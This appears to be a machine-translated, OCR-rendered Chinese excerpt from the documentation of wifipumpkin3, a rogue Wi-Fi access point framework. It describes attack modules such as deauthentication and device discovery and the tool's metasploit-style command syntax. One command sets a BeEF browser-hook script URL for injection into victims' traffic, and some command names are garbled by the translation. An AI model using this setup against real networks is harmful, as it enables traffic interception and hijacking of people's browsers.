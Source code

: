 **wp3 >设置 pumpkin proxy . beef . URL _ hook http://172 . 16 . 149 . 141:3000/hook . js**

欢迎代理开发者和用户将你的代理加入到这个项目中，看看如何创建代理的指南[。](https://wifipumpkin3.github.io/docs/getting-started#development)

**模块**

一个模块提供了接入点不一定要使用的功能，必备模块是为攻击增加新功能而设计的，如**`devices discovery``services enumeration``perform deauthentication attacks`**等。模块被引入以增加更多的功能来补充攻击。

**信息**

模块的语法基本上遵循“metasploit”的模块结构

基本核心指挥准则:

| 命令 | 描述 |
| --- | --- |
| 设置 | 为模块设置选项 |
| 背部 | 后退一级 |
| 帮助 | 显示可用命令 |
| 选择 | 显示当前模块的选项 |
| 奔跑 | 执行模块 |

欢迎模块开发者和用户将你的模块加入到这个项目中，看看指南[如何创建模块](https://wifipumpkin3.github.io/docs/getting-started#development)。

[**Download**](https://github.com/P0cL4bs/wifipumpkin3)